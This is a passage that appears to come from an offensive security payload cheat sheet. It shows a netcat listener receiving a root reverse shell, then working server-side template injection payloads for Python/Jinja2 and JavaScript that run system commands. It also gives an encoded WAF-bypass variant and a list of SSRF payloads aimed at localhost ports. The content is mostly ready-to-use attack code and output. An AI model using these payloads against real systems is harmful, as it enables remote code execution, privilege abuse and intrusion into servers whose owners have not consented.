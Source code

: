 #### [6] if everything works currectly. You should get a reverse shell.
```bash
nc -vv -lnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.130.
Ncat: Connection from 10.10.11.130:54434.
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

#### [+] or we can try those above commands also, if the previous one doesn't works.
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
```python
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
```python
{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("id").read()}}
```
```js
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}
```
#### `bypass common WAF`
```
{%25+include+request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep+5")|attr("read")()+%}
```
--------------------------------------------------------------------------------
# SSRF common payloads
```http
http://127.0.0.1:80
```
```http
http://127.0.0.1:443
```
```http
http://127.0.0.1:22
```
```http
http://0.0.0.0:80
```
```http
http://0.0.0.0:443
```
```http
http://0.0.0.0:22
```
--------------------------------------------------------------------------------
